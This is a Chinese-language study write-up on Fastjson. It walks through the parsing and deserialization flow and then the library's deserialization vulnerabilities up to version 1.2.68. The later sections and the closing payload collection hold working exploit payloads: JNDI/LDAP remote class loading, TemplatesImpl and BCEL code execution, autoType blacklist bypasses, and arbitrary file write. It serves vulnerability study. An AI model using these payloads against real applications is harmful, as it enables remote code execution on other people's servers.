# Fastjson

### What?

Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean，Fastjson不但性能好而且API非常简单易用，所以用户基数巨大，一旦爆出漏洞其影响对于使用了Fastjson的Web应用来说是毁灭性的。

### 环境配置(fastjson<=1.2.24)

导入fastjson库

在pom.xml中加入

```xml
<dependencies>
    <dependency>
         <groupId>com.alibaba</groupId>
         <artifactId>fastjson</artifactId>
         <version>1.2.24</version>
     </dependency>
</dependencies>
```

### 先看看咋用

Person.java

```java
package org.example;

public class Person {
    private String name;
    private int age;
    public Person() {
        System.out.println("constructor");


    }

    public String getName() {
        System.out.println("getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }
    public int getAge() {
        System.out.println("getAge");
        return age;
    }
    public void setAge(int age) {
        System.out.println("setAge");
        this.age = age;
    }
    @Override
    public String toString() {
        return "Person [name=" + name + ", age=" + age + "]";
    }
}

```

以这个Person类为例子

```JAVA
String s = "{\"name\":\"json\",\"age\":12}";
JSONObject jsonObject = JSONObject.parseObject(s);
System.out.println(jsonObject.toString());

'''
  {"name":"json","age":12}
```

这里将一个 JSON 格式的字符串转换为`JSONObject`对象，然后再将这个`JSONObject`对象以字符串形式输出。

```java
String s = "{\"name\":\"json\",\"age\":12}";
Person person  = JSONObject.parseObject(s, Person.class);
System.out.println(person.toString())
  
'''
  constructor
	setName
	setAge
	Person [name=json, age=12]
'''
```

- 当执行`JSONObject.parseObject(s, Person.class)`时，JSON 处理库会尝试将 JSON 字符串`s`中的数据填充到`Person`类的对象中。它会根据 JSON 中的键（如`"name"`和`"age"`）找到`Person`类中对应的成员变量，并设置相应的值。
- 然后，`System.out.println(person.toString())`会调用`Person`类重写的`toString()`方法，输出`Person`对象的信息。如果一切正常，输出结果应该类似于`Person{name='json', age=12}`。

- 同时根据输出的内容，我们可以得知fastjson通过调用setName和setAge来赋予给对象

#### fastjson的小特性

```java
String s = "{\"@type\":\"org.example.Person\",\"name\":\"json\",\"age\":12}";
JSONObject jsonObject  = JSONObject.parseObject(s);
System.out.println(jsonObject);

'''
  constructor
	setName
	setAge
	getAge
	getName
	{"name":"json","age":12}
'''
```

我们可以通过@type来指定一个类去解析后面的字符串，我们这里指定的是Person类。

根据回显我们可以知道fastjson对Person类进行了解析，实例化，调用等一系列操作

我们可以知道fastjson可以通过输入的字符串执行不同的代码的功能，有点像后门了...

直接开始debug吧

### 流程分析

#### 1.字符串解析



步入



我们可以先看看JSONObject是什么



我们可以看到它其实是一个Map，也就是键值对

回归正题 继续debug

从上面可以看出`parseObject`将我们传入的text传入了另一个`parse`

步入`parse`



我们可以看到字符被传入`DefaultJSONParser`这个字符解析器里面，后面这个`fearures`参数可以指定一些解析时的要求，比如能不能用单引号，能不能用空格之类的

步入这个prase



继续步入



我们可以看到这里运用switch-case结构对字符串进行挨个匹配

这里的`LBRACE`指的是左大括号，所以我们步入就直接跳转到`case LBRACE:`了



可以看到此时object还是空的，也就是说还没把我们传入的字符转化为一个对象

继续步入



在这个parseObject类里面，他会把我们传入的字符串转换为一个对象

直接步入到try-char部分，前面的东西不是很重要（看不懂）



这是一个死循环，也就是说只能通过break，return之类的才能跳出循环

这里会对字符串中的字符进行匹配，如



此时我们的第一位是'"'号，所以这里ch == '''的结果为false，而ch == '"'则结果为true



接下来会对key进行判断，我们这里的@type是属于第一类`DEFAULT_TYPE_KEY`



首先这里会用loadClass加载这个类`TypeUtils`，跟进去看看



这里会进行一些判断，比如传入的内容如果开头是'['则判定为数组



到最后就调用AppClassLoader来加载这个类，然后就返回`clazz`

以上就是对字符串进行解析的过程

#### 2.解析Java对象（反序列化？）

接下来我们继续步入



这里调用了一个Java反序列化器，步入



这个构造方法里面构造了很多个系统的内置的类一一对应的构造器

回到正题，继续步过，我们掉到一个方法里面



步入方法



有个获取注解的方法和一个黑名单方法（貌似用来限制性能？），没什么东西

回到ParserConfig,我们继续步入



这里进行了一堆类型的判断，如果符合类型则实例化对应的类，由于都不是，所以执行else语句中的内容，按照这个JavaBeanDeserializer来进行解析

步入JavaBeanDeserializer




> asmEnable是一个Java底层的动态创造代码的一个技术

这里asmEnable默认是true

不是很重要，快进一下

我们可以看到这里调用了一个叫JavaBeanInfo.build的函数，跟进去看看



这个类会在我们创建这个类对应的反序列化器的时候，要对我们的这个类里面的东西进行了解（我们这里是指constructor，setAge,setName之类的）



步进之后我们可以在这里面看到一个对我们的类里面的方法进行遍历的一个东西



直接看整体的代码逻辑

可以看到其实他对Method进行了两次的遍历，第一遍是为了获取所有的set（里面对开头是否为set进行了判断），而第二遍是为了获取所有的get



等获取了所有的set方法之后，他会创建一个FieldInfo

第二遍获取所有的get虽然判断方法有点不一样但是最后也是走到FieldInfo，但是有一个`判断限制如果前面已经提取过的方法这里不会再进行提取`。

这里省略了

对方法进行遍历结束之后,将我们获取到的方法传入这个`JavaBeanInfo`



里面没什么有用的东西，继续步进





可以看到在这里的`benInfo`已经获取到了字段name和age，同时也获取到了这个字段对应的方法，如name对应的setName方法



这里没有get方法是因为已经获取到了set方法，所有不会再获取get方法，上面遍历的时候有说，而且反序列化是一个赋值的过程，所有要调用的是set方法，用来赋值

继续步进



这里会进行一些判断，比如第一个这个判断fieldInfo的getOnly是否为true（这里是false），如果为true则使asmEnable为false，第二个会判断我们获取到的类是否为public类...

如果满足上面的全部条件，则无法打开开关`asmEnable`

那这个开关有什么用呢？

接着往下看


我们可以看到假如这个开关没开的话，他就会创建一个`JavaBeanDeserializer`

而假如开关开了的话则会从信进行JavaBeanInfo.build



详细的就不重新看了

接着步进



这里会创建一个临时的JavaBeanDeserializer类，由于是一个临时的类导致我们很难继续调试（看不到源代码）

那我们可以回到刚才判断getonly是否为true的地方，我们如果可以想办法把getonly变成true则可以调用系统自带的反序列化器，方便我们进行调试



那我们查找一下，看一下getOnly的值在哪里写入



跟进去



我们可以看到如果获取一个长度不为1的方法就可以使getOnly的值为true，那我们要怎么做呢？

我们可以回去看看前面对set方法和get方法进行遍历的地方，我们可以发现在遍历获取set方法的时候，如果长度为一则会直接退出进行下一轮循环



所以想要让getOnly为true，set方法行不通。

但是如果一个属性已经有set方法则不会再获取get方法，那我们可以新建一个只有get方法的属性

```java
private Map map;
public Map getMap() {
    System.out.println("getMap");
    return map;
}
```

那我们继续调试，前面的都差不多，直接快进到getOnly赋值的地方，可以看到当遍历到map的时候，getOnly被赋值为true

那我们回到刚通过判断来选择不同的反序列化器的地方



由于map的getOnly是true，所以把开关关掉了



成功进入到这一步，我们可以继续进行调试了

这个JavaBeanDeServerializer里面其实就是进行一些赋值的操作（bzd）

接着步进



我看看现在的derializer



我们可以看到现在已经获取到三个对象

接下来就要调用反序列化方法了



我们前面所有工作就是为了拿到这个反序列化器

回想一下我们刚开始调用Person类的时候，会调用setName，getName等一系列方法，怎么实现的呢

在JavaBeanDeserializer里面，他会遍历刚刚我们获取到的三个字段



然后中间会进行一些实例化之类的操作（？）（不知道在干嘛

最后会调用setValue进行一些赋值操作



跟进去看看，可以看到在最后这里用了一个invoke方法给age进行了赋值



赋值完我们就可以看到控制台输出了setAge



接下来应该是对name进行赋值，与前面对age进行赋值的步骤一样，赋值后控制台输出setName

没有对map进行赋值（因为还没写到`String s`里面

那我们前面看到get方法是在哪被调用了呢（输出getName，getAge..）



其实是通过这个toJSON方法

在这个toJSON方法里面他会通过遍历获取所有的field（name，age，map）



获取完之后我们看看这个fieldInfoList，后面写着size=3，也就是已经获取到了三个字段（name，age，map）





值都获取到了，接下来该进行调用了，当我们步进到这里时



这里调用了一个getFieldValuesMap方法，进去看看



我们可以发现这个循环会调用get方法，那我们进去看看这个getPropertyValue方法，看看他怎么调用的



可以发现在这一行之后会输出getAge，那我们再步入



可以看到这里调用了invoke方法，执行后输出getAge，那我们就知道为什么会调用get方法了，接下来的map和name的get方法调用也是一样的，就不叙述了

🆗到这里整个Fastjson的流程分析就结束了

#### 3.流程总结

回归刚刚我们写的代码



我们可以知道当使用`@type:`的时候fastjson在对他进行反序列化解析的时候会构造对应的方法，所以我们可以看到输出constructor

而后续在给age和name赋值的时候会调用对应的set方法，所以输出setName，setAge

最后之所以会调用这个get方法主要是因为后面调用的parseObject方法会对getName，getAge，getMap进行调用

> 假如不使用parseObject方法，但是在String s中加入\"map\"也会进行get方法的调用

### 漏洞利用

#### 简单利用demo

JSONUser.Java

```Java
package org.example;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
public class JSONUser {
    public static void main(String[] args) {
        String s = "{\"@type\":\"org.example.Test\",\"cmd\":\"calc\"}";
        JSONObject jsonObject = JSON.parseObject(s);
        System.out.println(jsonObject);
        }
}
```

Test.Java

```java
package org.example;

import java.io.IOException;

public class Test {
    public static void setcmd(String cmd) throws IOException {
        Runtime.getRuntime().exec(cmd);

    }
}
```

这样就能成功打开计算机了，虽然Test类里面没有定义cmd这个变量，但是fastjson依旧会对他进行解析并调用

#### *JdbcRowSetImpl 反序列化(<=1.2.24)：*

攻击流程：

1. 首先是这个lookup(URI)参数可控
2. 攻击者控制URI参数为指定为恶意的一个RMI服务
3. 攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类；
4. 目标在进行`lookup()`操作时，会动态加载并实例化Factory类，接着调用`factory.getObjectInstance()`获取外部远程对象实例；
5. 攻击者可以在Factory类文件的静态代码块处写入恶意代码，达到RCE的效果；

payload：

```java
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:23457/Command8","autoCommit":true}
```


#### TemplatesImpl 反序列化(<=1.2.24)[实战意义不大？]：

流程分析：

首先TemplatesImpl类位于`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`



在这个TemplatesImpl类中的`getTransletInstance()`方法会对`_class[_transletIndex]`进行实例化

而这个\_class是一个Class类的数组，而\_transletIndex则是这个数组的一个下标



而且在TemplatesImpl类中的 `getOutputProperties()` 方法调用 `newTransformer()` 方法，而 `newTransformer()` 又调用了 `getTransletInstance()` 方法。





那也就说假如`getOutputProperties()`是类里面某一个成员的getter方法，且`_class`可控那我就可以通过fastjson的特性从而达到调用任意类的目的

我们可以发现`getOutputProperties()`是_outputProperties的getter方法

接下来我们查看一下_class的用法



我们可以发现这三个方法都可以对_class进行赋值操作

回想刚刚我们一开始看的getTransletInstance()方法，我们会发现当_class为空的时候会调用defineTransletClasses()方法



那我们看看defineTransletClasses()是怎么给_class赋值的



> 首先要求 `_bytecodes` 不为空，接着就会调用自定义的 ClassLoader 去加载 `_bytecodes` 中的 `byte[]` 。而 `_bytecodes` 也是该类的成员属性。
>
> 而如果这个类的父类为 `ABSTRACT_TRANSLET` 也就是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`，就会将类成员属性的，`_transletIndex` 设置为当前循环中的标记位，而如果是第一次调用，就是`_class[0]`。如果父类不是这个类，将会抛出异常。

**有点不懂先引用一下**

那这样一条完整的漏洞调用链就呈现出来了：

- 构造一个 TemplatesImpl 类的反序列化字符串，其中 `_bytecodes` 是我们构造的恶意类的类字节码，这个类的父类是 AbstractTranslet，最终这个类会被加载并使用 `newInstance()` 实例化。
- 在反序列化过程中，由于getter方法 `getOutputProperties()`，满足条件，将会被 fastjson 调用，而这个方法触发了整个漏洞利用流程：`getOutputProperties()` -> `newTransformer()` -> `getTransletInstance()` -> `defineTransletClasses()` / `EvilClass.newInstance()`.

其中，为了满足漏洞点触发之前不报异常及退出，我们还需要满足 `_name` 不为 null ，`_tfactory` 不为 null 。

由于部分需要我们更改的私有变量没有 setter 方法，需要使用 `Feature.SupportNonPublicField` 参数。

> 在反序列化 JSON 字符串为 Java 对象时，启用`Feature.SupportNonPublicField`参数可以让库将 JSON 数据填充到 Java 对象的非公共字段中。

payload:

```java
{
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": ["yv66vgAAADQA...CJAAk="],
    "_name": "su18",
    "_tfactory": {},
    "_outputProperties": {},
}
```

#### Fastjson BCEL (<=1.2.24)

bcel简单分析：

环境配置

```xml
    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.24</version>
        </dependency>

        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-dbcp</artifactId>
            <version>9.0.20</version>
        </dependency>

    </dependencies>
```

我们先从`org.apache.commons.dbcp.BasicDataSource`开始分析



在这个类里面假如这个diverClassLoad和diverClassName不为空则会用这个Classload加载这个diverClassName类





而这两个量都有对应的setter方法，也就是说我们可以利用fastjson调用setter赋值的特性来给这两个量赋值从而实现任意类的调用

那我们再看看这个createConnectionFactory()是否可控





通过两部我们可以看到这个getConnection()方法可以调用到createConnectionFactory()

那我们可以尝试一下

Calc.java(恶意类)

```java
package org.example;

import java.io.IOException;

public class Calc {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e){
            e.printStackTrace();
        }
    }
}
```

FastjsonBCEL.java

```java
package org.example;


import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import org.apache.commons.dbcp.BasicDataSource;
import com.sun.org.apache.bcel.internal.util.ClassLoader;


import java.io.IOException;
import java.sql.SQLException;

public class FastjsonBCEL {
    public static void main(String[] args) throws SQLException, ClassNotFoundException, InstantiationException, IllegalAccessException, IOException {
        
        JavaClass cls = Repository.lookupClass(Calc.class);
        String code = Utility.encode(cls.getBytes(), true);
        System.out.println(code);
        ClassLoader ClassLoader = new ClassLoader();
        BasicDataSource basicDataSource = new BasicDataSource();
        basicDataSource.setDriverClassName("$$BCEL$$"+code);

        basicDataSource.setDriverClassLoader(ClassLoader);
        basicDataSource.getConnection();


    }
}
```

> tips:
>
> 导入包不能导入错，比如其他包里面也有Repository类，但是没有lookupClass方法



成功打开计算器

接下来用尝试利用fastjson来执行

```java
package org.example;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import java.io.IOException;
import java.sql.SQLException;

public class FastjsonBCEL {
    public static void main(String[] args) throws SQLException, ClassNotFoundException, InstantiationException, IllegalAccessException, IOException {
        JavaClass cls = Repository.lookupClass(Calc.class);
        String code = Utility.encode(cls.getBytes(), true);
        System.out.println(code);
        String s = "{\"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassLoader\": {\"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\": \"$$BCEL$$"+code+"\"}";
        JSON.parseObject(s);
    }
}
```

payload:

```
{\"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassLoader\": {\"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\": \"$$BCEL$$"+code+"\"}
```


#### ParserConfig (1.2.25 <= fastjson <= 1.2.41):

> 在版本 1.2.25 中，官方对之前的反序列化漏洞进行了修复，引入了 checkAutoType 安全机制，默认情况下 autoTypeSupport 关闭，不能直接反序列化任意类，而打开 AutoType 之后，是基于内置黑名单来实现安全的，fastjson 也提供了添加黑名单的接口。
>
> 影响版本：`1.2.25 <= fastjson <= 1.2.41` 描述：作者通过为危险功能添加开关，并提供黑白名单两种方式进行安全防护，其实已经是相当完整的防护思路，而且作者已经意识到黑名单类将会无穷无尽，仅仅通过维护列表来防止反序列化漏洞并非最好的办法。而且靠用户自己来关注安全信息去维护也不现实。
>
> [引用原文](https://www.javasec.org/java-vuls/FastJson.html#2-fastjson-1225)

安全更新主要集中在 `com.alibaba.fastjson.parser.ParserConfig`



可以看到它增加了黑名单和白名单这两个两个列表`denyList`和`aceeptList`

黑名单列表：

```
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

我可以看到我们在1.2.24用到的sun包tomcat包等都被扔到黑名单了

我们可以手动添加白名单

> 添加反序列化白名单有3种方法：
>
> 1. 使用代码进行添加：`ParserConfig.getGlobalInstance().addAccept(“org.su18.fastjson.,org.javaweb.”)`
> 2. 加上JVM启动参数：`-Dfastjson.parser.autoTypeAccept=org.su18.fastjson.`
> 3. 在fastjson.properties中添加：`fastjson.parser.autoTypeAccept=org.su18.fastjson.`

`autoTypeSupport`是一个开关（布尔值），可以通过`setAutoTypeSupport`方法对其进行赋值



接着我们看看开启`autoTypeSupport`和不开启有什么区别



当`autoTypeSupport`开启时，会先判断类名是否在白名单中，如果在，就使用 `TypeUtils.loadClass`进行加载，然后再使用黑名单判断类名的开头，如果匹配就抛出异常。



当`autoTypeSupport`关闭时，则会先判断类名是否再黑名单中，再判断白名单进行加载


如果黑白名单都没有匹配，那就只有再开启`autoTypeSupport`且expectClass不为空时才会进行类加载

接着我们进入到loadclass



> 可以看到这里第一个`if`语句检查`className`字符串是否以`'['`开始，如果是，这意味着`className`表示的是一个数组类型。例如，`"[Ljava/lang/String;"`表示`String`数组。在这种情况下，代码会做以下操作：
>
> - 使用`substring(1)`去掉数组标记`'['`，获取数组中元素的类名。
> - 调用`loadClass`方法加载这个类名对应的`Class`对象。
> - 使用`Array.newInstance`方法创建一个0长度的数组，并调用`getClass`方法获取这个数组的`Class`对象。

也就是说这个类在加载目标类之前为了兼容带有描述符的类名，使用了递归调用来处理描述符中的 `[`、`L`、`;` 字符。

既然这样，那我们就可以通过这个漏洞来绕过黑名单的匹配

例如下面的在我们要调用的恶意类名前插入一个字符`L`

payload:

```java
{
    "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
    "dataSourceName":"ldap://127.0.0.1:23457/Command8",
    "autoCommit":true
}
```


#### ParserConfig2 (fastjson<=1.2.42)

在1.2.42版本中，fastjson取消了黑白名单的明文显示（防止反向利用黑名单里的类，影响旧版本），而是采用了Hash的方法进行对比



同时也增加了一个判断，判断前后是否为`L`和`;`(用的Hash比较)



我进行双写L和;即可绕过

payload:

```java
{
    "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
    "dataSourceName":"ldap://127.0.0.1:23457/Command8",
    "autoCommit":true
}
```


#### ParserConfig3 (fastjson<=1.2.43)

修复了上个版本双写绕过的方法

但是由于还会对`[`进行递归，所以我们也可以通过`[`来进行绕过

```java
{
    "@type":"[com.sun.rowset.JdbcRowSetImpl"[,
    {"dataSourceName":"ldap://127.0.0.1:23457/Command8",
    "autoCommit":true
}
```


#### JndiDataSourceFactory(fastjson<=1.2.45)

payload:

```java
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:23457/Command8"
    }
}
```


#### 未开启 AutoTypeSupport(1.2.25 <= fastjson <= 1.2.32)：

在 1.2.47 时爆出了可以在不开启 AutoTypeSupport 的情况下进行反序列化的利用的漏洞。

我们知道在`autoTypeSupport`为false的时候会直接进行黑名单的匹配并抛出异常，而且我们无法绕过

也就说我们需要想办法在判断`autoTypeSupport`之前进行类的加载



我们可以找到，在判断前程序有在 TypeUtils.mappings 中和 deserializers 中尝试查找要反序列化的类，如果找到了，则就会 return，这就避开下面 autoTypeSupport 默认为 false 时的检查



首先我们先查看deserializers的用法，我们可以发现这个值并不可控，也就是这条路走不通

那我们换一条路，我们看看TypeUtils

跟进



我们可以看到这个方法从mappings取值，这个值是一个ConcurrentHashMap类



怎样才能给这个类中的参数赋值呢，我们继续看

能给参数赋值的方法有两个，其中这个addBaseClassMappings()虽然能给mappings进行赋值，但是并不能传入参数，行不通



接下来我们看这个loadClass方法



详细代码：

```Java
public static Class<?> loadClass(String className, ClassLoader classLoader, boolean cache) {
        // 非空判断
        if(className == null || className.length() == 0){
            return null;
        }
        // 防止重复添加
        Class<?> clazz = mappings.get(className);
        if(clazz != null){
            return clazz;
        }
        // 判断 className 是否以 [ 开头
        if(className.charAt(0) == '['){
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        }
        // 判断 className 是否 L 开头 ; 结尾
        if(className.startsWith("L") && className.endsWith(";")){
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
        try{
            // 如果 classLoader 非空，cache 为 true 则使用该类加载器加载并存入 mappings 中
            if(classLoader != null){
                clazz = classLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            e.printStackTrace();
            // skip
        }
        // 如果失败，或没有指定 ClassLoader ，则使用当前线程的 contextClassLoader 来加载类，也需要 cache 为 true 才能写入 mappings 中
        try{
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            if(contextClassLoader != null && contextClassLoader != classLoader){
                clazz = contextClassLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            // skip
        }
        // 如果还是失败，则使用 Class.forName 来获取 class 对象并放入 mappings 中
        try{
            clazz = Class.forName(className);
            mappings.put(className, clazz);
            return clazz;
        } catch(Throwable e){
            // skip
        }
        return clazz;
    }
```

由此可知，通过这个loadClass方法我们可以给mappings写入任意值

但是在这个TypeUtils类里面loadClass的重载方法有三个

我们应该使用哪一种重载方法呢

在这个调用两个参数的重载方法中



会返回三个参数的重载方法，并将最后一个参数设置为true

我们看看如何调用它

其中 `com.alibaba.fastjson.serializer.MiscCodece` 的deserialz方法，可以作为入口



strval的赋值（没太看懂），大概是解析 “val” 中的内容放入 objVal 中，然后传入 strVal 中。



写个Json调试一下 {\"@type\":\"java.lang.Class\",\"val\":\"aaaaa\"}

可以看到成功给strlVal赋值aaaaa，最后再赋给mappings



所以可以得到我们最终的payload如下，成功绕开autoTypeSupport的判定

```java
{
    "su18": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "su19": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "ldap://127.0.0.1:23457/Command8",
        "autoCommit": true
    }
}
```

#### Throwable（Fastjson<=1.2.68)

影响版本：`fastjson <= 1.2.68` 描述：利用 expectClass 绕过 `checkAutoType()` ，实际上也是为了绕过安全检查的思路的延伸。主要使用 `Throwable` 和 `AutoCloseable` 进行绕过。

> 在 1.2.47 版本漏洞爆发之后，官方在 1.2.48 对漏洞进行了修复，在 `MiscCodec` 处理 Class 类的地方，设置了cache 为 false ，并且 `loadClass` 重载方法的默认的调用改为不缓存，这就避免了使用了 Class 提前将恶意类名缓存进去。
>
> 这个安全修复为 fastjson 带来了一定时间的平静，直到 1.2.68 版本出现了新的漏洞利用方式。
>
> 版本 1.2.68 本身更新了一个新的安全控制点 safeMode，如果应用程序开启了 safeMode，将在 `checkAutoType()` 中直接抛出异常，也就是完全禁止 autoType，不得不说，这是一个一劳永逸的修复方式。
>
> [原文链接](https://www.javasec.org/java-vuls/FastJson.html#8-fastjson-1268)



这个漏洞主要是因为这个expectClass，当传入的clazz和expectClass不为空且传入的clazz是 expectClass的子类或实现，并且不在黑名单中，就可以通过 checkAutoType() 的安全检测。

那我们看看怎样才能传入这个expectClass参数

其中`ThrowableDeserializer#deserialze()` 方法直接将 `@type` 后的类传入 `checkAutoType()` ，并且 expectClass 为 `Throwable.class`



> 在fastjson中，在对某个类型反序列化前，先要进行一次ParserConfig#checkAutoType()检查，然后才是获取相应类型的反序列化器进行反序列化。
>
> 换言之，到达ThrowableDeserializer#deserialze() 前，就对一个通过@type指定的异常类进行了ParserConfig#checkAutoType()校验。进入到ThrowableDeserializer#deserialze()后，词法分析器会继续遍历JSON字符串剩余的部分，如果紧接着的键还是一个@type的话，就会将它的值，且Throwable.class作为期望类expectClass，一同传入ParserConfig#checkAutoType()进行校验。
>
> [原文链接](https://blog.csdn.net/mole_exp/article/details/122315526)


如果校验通过了，则会实例化这个异常类



实例化会调用这个类的setter方法

那我们接下来实现一下

首先我们要写一个异常类（为什么是这样写？）

```java
package org.example;

import java.io.IOException;

public class CalcException extends Exception {

    private String command;

    public void setCommand(String command) {
        this.command = command;
    }

    @Override
    public String getMessage() {
        try {
            Runtime.getRuntime().exec(this.command);
        } catch (IOException e) {
            return e.getMessage();
        }
        return super.getMessage();
    }
}
```

这段 Java 代码定义了一个名为 `CalcException` 的自定义异常类，它继承自 `Exception` 类。这个自定义异常类添加了一个属性 `command`，并且重写了 `getMessage()` 方法，在该方法中尝试执行一个外部命令，并根据执行情况返回相应的错误消息。

接下来我们构建json字符串

> 要注意的是，由于java.lang.Throwable这个类不在缓存集合TypeUtils#mappings中，所以未开启autoType的情况下，这个类是不能通过ParserConfig#checkAutoType()的校验的。这里在JSON字符串中使用它的一个子类java.lang.Exception，因为java.lang.Exception是在缓存集合TypeUtils#mappigns中的。
>
> 原文链接：https://blog.csdn.net/mole_exp/article/details/122315526

而且我们上面提到实例化只会调用到setter方法，而我们的异常类调用的是getter方法

可以利用fastjson的JSONPath特性`$ref`去引用指定对象的某个`xxx`属性，从而访问该对象的`getXXX()`方法

payload:

```java
{"x":
	{"@type":"java.lang.Exception",
	 "@type":"me.mole.exception.CalcException", 
	         "command":"open -a Calculator"}, 
 "y":{"$ref":"$x.message"}
 }
```



> 上述PoC只是为了验证Throwable这个利用点。实际上很少有异常类会使用到高危函数。

### payload合集

https://www.javasec.org/java-vuls/FastJson.html#%E5%9B%9B%E3%80%81payload

以下为部分在各个途径搜集的 payload，版本自测：

JdbcRowSetImpl

```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://127.0.0.1:23457/Command8",
    "autoCommit": true
}
```

TemplatesImpl

```json
{
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": ["yv66vgA...k="],
    '_name': 'su18',
    '_tfactory': {},
    "_outputProperties": {},
}
```

JndiDataSourceFactory

```json
{
    "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties": {
      "data_source": "ldap://127.0.0.1:23457/Command8"
    }
}
```

SimpleJndiBeanFactory

```json
{
    "@type": "org.springframework.beans.factory.config.PropertyPathFactoryBean",
    "targetBeanName": "ldap://127.0.0.1:23457/Command8",
    "propertyPath": "su18",
    "beanFactory": {
      "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
      "shareableResources": [
        "ldap://127.0.0.1:23457/Command8"
      ]
    }
}
```

DefaultBeanFactoryPointcutAdvisor

```json
{
  "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor",
   "beanFactory": {
     "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
     "shareableResources": [
       "ldap://127.0.0.1:23457/Command8"
     ]
   },
   "adviceBeanName": "ldap://127.0.0.1:23457/Command8"
},
{
   "@type": "org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor"
}
```

WrapperConnectionPoolDataSource

```json
{
    "@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
    "userOverridesAsString": "HexAsciiSerializedMap:aced000...6f;"
  }
```

JndiRefForwardingDataSource

```json
{
    "@type": "com.mchange.v2.c3p0.JndiRefForwardingDataSource",
    "jndiName": "ldap://127.0.0.1:23457/Command8",
    "loginTimeout": 0
  }
```

InetAddress

```json
{
    "@type": "java.net.InetAddress",
    "val": "http://dnslog.com"
}
```

Inet6Address

```json
{
    "@type": "java.net.Inet6Address",
    "val": "http://dnslog.com"
}
```

URL

```json
{
    "@type": "java.net.URL",
    "val": "http://dnslog.com"
}
```

JSONObject

```json
{
    "@type": "com.alibaba.fastjson.JSONObject",
    {
        "@type": "java.net.URL",
        "val": "http://dnslog.com"
    }
}
""
}
```

URLReader

```json
{
    "poc": {
        "@type": "java.lang.AutoCloseable",
        "@type": "com.alibaba.fastjson.JSONReader",
        "reader": {
            "@type": "jdk.nashorn.api.scripting.URLReader",
            "url": "http://127.0.0.1:9999"
        }
    }
}
```

AutoCloseable 任意文件写入

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.compress.compressors.gzip.GzipCompressorOutputStream",
    "out": {
        "@type": "java.io.FileOutputStream",
        "file": "/path/to/target"
    },
    "parameters": {
        "@type": "org.apache.commons.compress.compressors.gzip.GzipParameters",
        "filename": "filecontent"
    }
}
```

BasicDataSource

```json
{
  "@type" : "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
  "driverClassName" : "$$BCEL$$$l$8b$I$A$A$A$A...",
  "driverClassLoader" :
  {
    "@type":"Lcom.sun.org.apache.bcel.internal.util.ClassLoader;"
  }
}
```

JndiConverter

```json
{
    "@type": "org.apache.xbean.propertyeditor.JndiConverter",
    "AsText": "ldap://127.0.0.1:23457/Command8"
}
```

JtaTransactionConfig

```json
{
    "@type": "com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig",
    "properties": {
        "@type": "java.util.Properties",
        "UserTransaction": "ldap://127.0.0.1:23457/Command8"
    }
}
```

JndiObjectFactory

```json
{
    "@type": "org.apache.shiro.jndi.JndiObjectFactory",
    "resourceName": "ldap://127.0.0.1:23457/Command8"
}
```

AnterosDBCPConfig

```json
{
    "@type": "br.com.anteros.dbcp.AnterosDBCPConfig",
    "metricRegistry": "ldap://127.0.0.1:23457/Command8"
}
```

